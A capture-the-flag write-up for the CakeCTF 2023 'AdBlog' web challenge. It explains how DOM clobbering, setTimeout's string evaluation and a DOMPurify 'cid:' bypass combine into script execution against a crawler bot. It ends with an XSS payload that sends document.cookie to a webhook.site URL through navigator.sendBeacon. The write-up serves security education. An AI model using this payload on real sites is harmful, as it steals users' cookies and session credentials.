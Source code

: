 # AdBlog

## Description

> Post your article anonymously [here](http://adblog.2023.cakectf.com:8001/)!
>
> \* Please [report us](http://adblog.2023.cakectf.com:8002/) if you find any sensitive/harmful posts.
>
> Attachments: adblog_bf9113f56e16736e143208ac49829609.tar.gz

<details><summary>Attachment file tree</summary>

```console
$ tree adblog
adblog
├── crawler
│   ├── crawler.js
│   ├── Dockerfile
│   └── package.json
├── docker-compose.yml
├── exploit1.html
├── leak.html
├── redis
│   ├── Dockerfile
│   └── redis.conf
├── report
│   ├── app.py
│   ├── Dockerfile
│   ├── templates
│   │   └── index.html
│   └── uwsgi.ini
├── serve.py
└── service
    ├── app.py
    ├── Dockerfile
    ├── static
    │   ├── css
    │   │   ├── ad-style.css
    │   │   └── simple-v1.min.css
    │   └── js
    │       └── ads.js
    ├── templates
    │   ├── blog.html
    │   └── index.html
    └── uwsgi.ini

10 directories, 21 files
```

</details>

## Solution

Looking at the source code:

```javascript
// adblog/crawler/crawler.js

    // (snip)

    const page = await browser.newPage();
    try {
        await page.setCookie({
            name: 'flag',
            value: flag,
            domain: new URL(base_url).hostname,
            httpOnly: false,
            secure: false
        });

    // (snip)
```

The purpose of this challenge is to get the flag set in the crawler's cookie.

Since httpOnly is set as false, we can get the flag by using  `document.cookie` JavaScript API [^1].

```html
<!-- adblog/service/templates/blog.html -->
    <!-- (snip) -->

    <script src="/static/js/ads.js"></script>
    <script>
     let content = DOMPurify.sanitize(atob("{{ content }}"));
     document.getElementById("content").innerHTML = content;

     window.onload = async () => {
       if (await detectAdBlock()) {
         showOverlay = () => {
           document.getElementById("ad-overlay").style.width = "100%";
         };
       }

       if (typeof showOverlay === 'undefined') {
         document.getElementById("ad").style.display = "block";
       } else {
         setTimeout(showOverlay, 1000);
       }
     }
    </script>

    <!-- (snip) -->
```

```js
// adblog/service/static/js/ads.js

const ADS_URL = 'https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js';

async function detectAdBlock(callback) {
    try {
        let res = await fetch(ADS_URL, { method: 'HEAD' });
        return res.status !== 200;
    } catch {
        return true;
    }
}
```

We can define a global variable named showOverlay due to DOM Clobbering [^2].
The showOverlay variable is controllable by user and set as the first argument of `setTimeout`.

The first argument of `setTimeout` can be set with JavaScript code, similar to `eval` [^3].
Also, if an object is set as the first argument of setTimeout, the result of toString() is passed.

Tested in Console panel in Chrome DevTools:

```javascript
class Foo {
  toString() {
    return `console.log("injected")`;
  }
}

const foo = new Foo();
setTimeout(foo);
// output => injected
```

Also, toString() of an anchor tag will return href string [^4].

Tested in Console panel in Chrome DevTools e.g. `<a href="foo:bar">`:

```javascript
const anchor = document.createElement('a');

// with `foo` protocol scheme
anchor.href = "foo:bar";
anchor.toString();
// output => 'foo:bar'

// without protocol scheme
anchor.href = "bar";
anchor.toString();
// output => 'http://localhost/bar'
```

The cid protocol scheme can be bypassed with `DOMPurify.sanitize` [^5].

Tested in Console panel in Chrome DevTools in <https://cure53.de/purify>:

```javascript
DOMPurify.sanitize('<a href="cid:alert(1);">');
// output => '<a href="cid:alert(1);"></a>'

DOMPurify.sanitize('<a href="foo:alert(1);">');
// output => '<a></a>'

DOMPurify.sanitize('<a href="alert(1);">');
// output => '<a href="alert(1);"></a>'
```

DOMPurify allows a href attribute even without the protocol scheme.
But if there is no `cid:`, it will execute as `setTimeout("http://localhost/alert(1);", 1000)`, an arbitrary code execution is failed.

When executed as JavaScript code, `cid:` is interpreted as a label [^6] rather than a protocol scheme, and it has no effect on the JavaScript code.

Tested:

```html
<!-- index.html -->
<!DOCTYPE html>
<html>
  <head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"></script>
  </head>
  <body>
    <div id="content"></div>
    <script>
      let content = DOMPurify.sanitize(
        `<a id=showOverlay href=cid:console.log("injected");>`
      );
      document.getElementById("content").innerHTML = content;

      window.onload = async () => {
        setTimeout(showOverlay, 1000);
      };
    </script>
  </body>
</html>
```

I created the above index.html and hosted with Python http.server `python3 -m http.server 80` and accessed `http://localhost`, then got `injected` output in Console panel in Chrome DevTools.
An arbitrary JavaScript code execution was successful in my test.

Finally, I can send the bot's cookie value to an arbitrary URL by using `navigator.sendBeacon` [^7].

Therefore, I can get flag by using the following payload:

```html
<a id=showOverlay href="cid:navigator.sendBeacon('https://webhook.site/<your webhook>',document.cookie);">
```

## Footnotes

[^1]: [Using HTTP cookies - HTTP \| MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies)
    > A cookie with the HttpOnly attribute is inaccessible to the JavaScript Document.cookie API; it's only sent to the server.

[^2]: [DOM clobbering \| Web Security Academy](https://portswigger.net/web-security/dom-based/dom-clobbering)

[^3]: [setTimeout() global function - Web APIs \| MDN](https://developer.mozilla.org/en-US/docs/Web/API/setTimeout#code)
    > code
    >
    > An alternative syntax that allows you to include a string instead of a function, which is compiled and executed when the timer expires. This syntax is not recommended for the same reasons that make using eval() a security risk.

[^4]: [Dom Clobbering - HackTricks | Basics](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering#basics)
    > Interestingly, when you use a form element to clobber a variable, you will get the toString value of the element itself: [object HTMLFormElement] but with anchor the toString will be the anchor href. Therefore, if you clobber using the a tag, you can control the value when it's treated as a string:

[^5]: [Dom Clobbering - HackTricks | Clobbering window.someObject](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering#clobbering-window.someobject)
    > Trick: DOMPurify allows you to use the cid: protocol, which does not URL-encode double-quotes.

[^6]: [Labeled statement - JavaScript \| MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/label)

[^7]: [Navigator: sendBeacon() method - Web APIs \| MDN](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/sendBeacon)
